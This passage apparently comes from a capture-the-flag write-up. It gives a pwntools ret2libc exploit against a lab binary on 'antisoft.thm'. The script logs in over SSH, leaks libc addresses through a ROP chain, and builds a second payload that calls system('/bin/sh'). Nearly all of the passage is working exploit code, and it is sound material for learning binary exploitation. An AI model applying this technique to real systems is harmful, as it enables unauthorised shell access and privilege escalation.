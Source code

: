 After trying the first libc version (ubuntu11.2), it was failing so I tried the other one.
The only difference between the two version is the address of `str_bin_sh` otherwise `system()` is at the same address in both versions (The only different that matters to us)

The final exploit looks like this:
```python
from pwn import *

######################## Stage 1
user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

context.binary = binary = ELF("./exploit_me", checksec=False)
# context.log_level = "debug" -- un-comment for debugging

_ROP = ROP(binary)

padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts)
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")

######################## Stage 2

libc = ELF("./libc6_2.23-0ubuntu11.3_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")

bin_sh_address = p64(next(libc.search(b"/bin/sh")))
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
alignment_issue_ret_address = p64(_ROP.find_gadget(["ret"])[0])
system_address = p64(libc.symbols.system)

payload = padding
payload += alignment_issue_ret_address
payload += pop_rdi_ret_address
payload += bin_sh_address
payload += system_address
```